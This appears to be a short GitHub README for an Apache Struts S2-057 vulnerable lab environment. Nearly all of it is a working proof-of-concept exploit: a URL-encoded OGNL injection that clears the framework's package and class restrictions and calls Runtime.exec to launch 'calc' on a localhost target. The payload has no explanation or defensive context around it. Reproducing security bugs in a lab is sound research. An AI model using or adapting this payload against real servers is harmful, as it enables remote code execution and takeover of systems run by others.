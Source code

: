 # S2-057
S2-057 vul environment &amp; poc
poc

http://localhost:8888/$%7B(%23dm%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3d%23request['struts.valueStack'].context).(%23cr%3d%23ct['com.opensymphony.xwork2.ActionContext.container']).(%23ou%3d%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3d%40java.lang.Runtime%40getRuntime().exec(%22calc%22))%7D/viewSource.action
